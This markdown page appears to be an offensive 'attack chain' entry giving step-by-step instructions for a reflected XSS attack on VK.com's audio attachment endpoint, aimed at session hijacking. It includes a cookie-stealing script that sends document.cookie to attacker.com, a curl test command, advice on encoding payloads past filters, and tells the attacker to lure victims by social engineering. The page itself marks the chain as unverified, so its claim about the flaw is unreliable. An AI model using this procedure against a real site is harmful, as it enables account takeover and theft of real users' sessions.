

# Reflected XSS in VK.com Audio Attachment Feature Leading to Session Hijacking

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Low |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- URL encoder (built-in or online)

### Target Environment

- Web platform
- PHP-based application (VK.com comments widget)
- Access to /al_audio.php endpoint

### Initial Access Requirements

- Ability to send links to victims (e.g., via social engineering)
- No prior credentials needed; social engineering for link clicks

## Detailed Attack Procedures

### Step 1: Exploit Reflected XSS
procedure: [[procedures/Exploiting-Reflected-XSS-in-VK-Audio-Attachment]]

**Objective**: Inject and execute arbitrary JavaScript in the victim's browser by tricking them into interacting with a malicious audio attachment link in the comments widget, leading to session cookie theft.

**Instructions**: Craft a malicious URL targeting the /al_audio.php endpoint with an unsanitized payload in the audio attachment parameter. Use a payload like `<script>alert('XSS')</script>` for testing, or for exploitation, something like `<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>`. Encode the payload to bypass basic filters and append it to the comments widget URL. Send the link to the victim via messaging or email.

First, test the reflection using a browser or curl:

```bash
curl "https://vk.com/al_audio.php?act=attach_audio&input=<script>alert(1)</script>" -v
```

Observe if the payload reflects back unsanitized in the response. Once confirmed, deploy the full exploit link.

**Expected Output**: The victim's browser executes the JavaScript, potentially redirecting cookies to the attacker's server or displaying an alert for proof-of-concept.

**Success Indicators**:
- Payload executes (e.g., alert pops or network request to attacker server)
- Victim's session cookies are exfiltrated to attacker's controlled endpoint

## Attack Chain Summary

### Key Achievements

1. Successful injection of JavaScript via reflected user input in audio attachment
2. Arbitrary code execution in victim browser context
3. Potential for session hijacking and account takeover

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Steal Web Session Cookie]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
